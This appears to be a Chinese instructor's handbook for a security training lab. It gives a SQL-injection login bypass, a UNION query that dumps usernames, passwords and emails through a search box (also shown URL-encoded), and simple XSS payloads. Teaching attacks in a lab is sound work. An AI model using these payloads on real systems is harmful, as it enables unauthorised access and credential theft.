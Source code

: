 # 讲师手册

## 靶场与环境准备

## 实战部分
### 1. sql 注入部分
#### 注入登录 
密码 `'or '1'='1`
#### 注入拿到admin用户密码
在搜索框注入：
```sql
%' or 1=1 or title like '%%' union select uid, uid as aid,  username as title, password as content, email as author_name, password as tags, create_time as create_time, create_time as update_time,uid as del from user where username like '%admin
```
需要进行url encode, url encode 之后为：
```
%25%27%20or%201%3D1%20or%20title%20like%20%27%25%25%27%20union%20select%20uid%2C%20uid%20as%20aid%2C%20%20username%20as%20title%2C%20password%20as%20content%2C%20email%20as%20author_name%2C%20password%20as%20tags%2C%20create_time%20as%20create_time%2C%20create_time%20as%20update_time%2Cuid%20as%20del%20from%20user%20where%20username%20like%20%27%25admin
```
这样密码会出现在文章列表中。


### XSS 注入：
#### juice-shop 同款漏洞
```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

#### 脚本注入：
```html
<a href="javascript: alert(1)">Click me!</a>
```
